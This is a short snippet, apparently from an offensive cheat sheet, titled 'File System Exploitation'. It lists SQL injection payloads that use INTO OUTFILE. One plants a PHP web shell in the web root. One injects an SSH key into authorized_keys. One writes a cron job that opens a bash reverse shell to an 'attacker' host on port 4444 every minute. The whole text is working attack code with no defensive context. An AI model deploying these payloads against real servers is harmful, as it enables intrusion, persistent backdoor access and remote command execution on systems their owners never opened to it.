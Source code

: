 ### File System Exploitation
```sql
-- Web shell deployment
SELECT '<?php system($_GET["c"]); ?>' INTO OUTFILE '/var/www/html/shell.php';

-- SSH key injection
SELECT 'ssh-rsa AAAAB3NzaC1yc2EAAAA...' INTO OUTFILE '/home/user/.ssh/authorized_keys';

-- Cron job persistence
SELECT '* * * * * /bin/bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"' INTO OUTFILE '/etc/cron.d/backdoor';
```
